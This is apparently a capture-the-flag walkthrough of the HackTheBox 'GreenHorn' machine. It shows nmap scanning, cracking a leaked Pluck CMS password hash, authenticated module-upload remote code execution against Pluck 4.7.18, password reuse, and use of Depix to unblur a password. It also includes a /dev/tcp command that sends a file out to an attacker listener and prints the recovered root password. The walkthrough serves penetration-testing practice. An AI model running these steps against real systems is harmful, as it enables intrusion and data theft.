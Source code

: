 
starting with nmap 
`
```
sudo  nmap -sC -sV -p- -oN greenHorn -T4 10.10.11.25
```
 ![[Pasted image 20240722002947.png]]

so we got 2 websites , one hosted on the port 80 and the other on the port 3000
![[Pasted image 20240722003219.png]]


`
on the port 3000 , we got gitea , with a public repos contains the source code of ==pluck cms==
on the other port we found the ==pluck cms==

![[Pasted image 20240722003527.png]]

from the fisrt look , I assume that this websites is the same one as the one in the ==gitea repo ==

so let's take look at the source code , quick review of the code 

this file got my attention http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/login.php 

```
else {

require_once 'data/settings/pass.php';

  

//Check if we're already logged in. First, get the token.

require_once 'data/settings/token.php';
```

let's check the ==data/settings/pass.php== 
```
<?php

$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';

?>
```
this files returns a hash to the  ==login.php== file 

then the cms generate a hash based on the user input and stored it in  ==$pass==
```
  

//If password has been sent, and the bogus input is empty, MD5-encrypt password.

if (isset($_POST['submit']) && empty($_POST['bogus'])) {

$pass = hash('sha512', $cont1);
```
after that he compares the ==\$ww (hash returned from pass.php)== with the ==\$pass==
to confirm that the password is correct
```
  

//If password is correct, save session-cookie.

if (($pass == $ww) && (!isset($login_error))) {

$_SESSION[$token] = 'pluck_loggedin';
```

if we crack the hash on the pass.==php== we will get access to the ==cms==  , since the  hash is ==SHA512== , I will try to crack it using 
https://crackstation.net/

![[Pasted image 20240722011750.png]]
![[Pasted image 20240722012056.png]]

the CMS is on version ==4.7.18== , I quick google search lead me to https://www.exploit-db.com/exploits/51592

after reading the script .
the scenario is the following :
```
user with admin privilege can upload a module (module is just zip with php files) using http://target/pluck/admin.php?action=installmodule
, then we can run those files , since we control those files we can use them to get rce .
```

first I will create a zip with two files ==poc.php,rce.php== 
![[Pasted image 20240722012944.png]]
```
zip rce.zip poc.php rce.php
```
![[Pasted image 20240722013106.png]]

![[Pasted image 20240722013302.png]]

http://greenhorn.htb/data/modules/rce/poc.php
![[Pasted image 20240722013344.png]]

http://greenhorn.htb/data/modules/rce/rce.php?cmd=id
![[Pasted image 20240722013526.png]]

let's get rev shell now
![[Pasted image 20240722014725.png]]

![[Pasted image 20240722014758.png]]

we have 3 users on this machines
```
cat  /etc/passwd | grep sh$
```
![[Pasted image 20240722014835.png]]

I tried to reuse the password of the website , against users and I am ==junior== now!!
```
su junior
```

there's a pdf on ==junior's home== 
![[Pasted image 20240722015126.png]]

let's transfer it to our machine  to check it 
```
on the target :
		cat 'Using OpenVAS.pdf' > /dev/tcp/10.10.14.234/1337
on the attacker machine :
		nc -nvlp 1337 > openvas.pdf
```
![[Pasted image 20240722015319.png]]

there's a hidden password in this pdf , we need to unblur that shit
![[Pasted image 20240722015603.png]]

at this point I was stuck , so I ask for hints from the HTB discord server 
we need tools like https://github.com/spipm/Depix to un-blur the password

but first we need to convert the pdf to png (wasn't lucky with taking screenshots),
using websites like https://pdfcandy.com will be enough 

after generating the image I use  ==Depix tool== to generate un-blurred  image
```
python3 depix.py -p  ../OpenVas.png  -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o root.png
```

and I got this 
![[root.png]]

```
sidefromsidetheothersidesidefromsidetheotherside
```
![[Pasted image 20240722020616.png]]
